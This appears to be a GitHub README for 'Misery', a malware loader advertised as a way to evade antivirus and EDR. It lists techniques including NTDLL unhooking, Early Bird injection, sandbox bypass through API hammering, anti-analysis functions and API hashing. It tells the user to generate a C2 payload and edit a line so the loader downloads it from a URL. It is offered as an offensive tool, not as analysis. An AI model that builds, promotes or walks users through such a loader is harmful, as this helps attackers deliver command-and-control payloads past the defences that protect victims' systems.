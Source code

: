 # Misery (Evade Av Like Taxes)
## Misery Loader to bypass modern EDR solutions 🖥️ 🛠️
![miserybanner](https://i.imgur.com/yCk788y.jpeg)

-> Misery is a code injector with some features
   
   -> 🪝 Unhook NTDLL from suspended process
   -> 💉 Early Bird Injection
   -> 📦 Sandbox bypass(Api Hammering) ⚒️
   -> 🚫 Anti Analysis Functions
   -> 😈 Compile Time API Hashing with HashStringJenkins algorithm


### 📁 Generate the payload with the c2 of your choice(*.bin)
### 🥷 If you want debug output, uncomment all printf lines
### 🏷️Change line 268 -> LPCWSTR szUrl = L"http://127.0.0.1/demon.x64.bin"



